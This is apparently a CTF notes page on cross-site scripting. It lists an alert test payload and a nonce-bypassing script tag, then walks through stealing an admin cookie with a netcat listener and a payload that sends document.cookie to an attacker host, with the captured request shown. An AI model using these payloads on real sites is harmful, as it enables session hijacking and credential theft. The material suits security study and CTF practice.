 # XSS
<!-- brief: Some snippets of code about cross-site scripting -->
<!-- keywords: cookie, intercept, script, attributes -->
XSS is cross-site scripting. This page just lists some tips and snippets of code:
- [Check for script attributes](#check-for-script-attributes)
- [Intercept a cookie](#intercept-a-cookie)

## Check for script attributes
<!-- brief: Just a reminder to check for attributes in a script tag -->
<!-- keywords: xss, cross site-scripting, attributes, tag -->
When testing whether a site is vulnerable to XSS, you may try something like:
```
https://some.vuln.site?name=<script>alert(1)</script>
```
You can see your script code in the page, but no alert appeared. Check whether other scripts on the page have an attribute that may be needed to execute scripts. For example:
```
http://some.vuln.site/?name=<script%20nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
```
## Intercept a cookie
<!-- brief: Intercept a cookie sent to a webpage from another (usually 'admin') site -->
<!-- keywords: xss, cross site-scripting, cookie, intercept -->
In one CTF, there was an Admin server that could send a cookie to another server, and we needed to intercept that cookie.

To intercept it, we set up a *netcat* listener, so we could send the cookie to it:
```
$ nc -nlvk 8080
Listening on 0.0.0.0 8080
```
Now we went to the admin server for the challenge, and gave it a URL that would visit the target site, get the cookie and send it to us in a *GET* variable:
```
https://some.vuln.site/?name=<script%20nonce%3DLRGWAXOY98Es0zz0QOVmag%3D%3D>var%20a%3Ddocument.cookie%3B%20document.location%3D%60http:%2F%2Fcr4ck3rs.com:8080%2F%3Fc%3D%24%7Ba%7D%60<%2Fscript>
```
Without the URL encoding, this is:
```
https://some/vuln.site/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">var a=document.cookie; document.location=`http://cr4ckers.com:8080/?c=${a}`</script>
```
In the *netcat* listener, we see something like this:
```
Connection received on 35.203.246.8 20340
GET /?c=secret=4b36b1b8e47f761263796b1defd80745 HTTP/1.1
Host: cr4ck3rs.com:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
```
With the cookie contents on the *GET* line.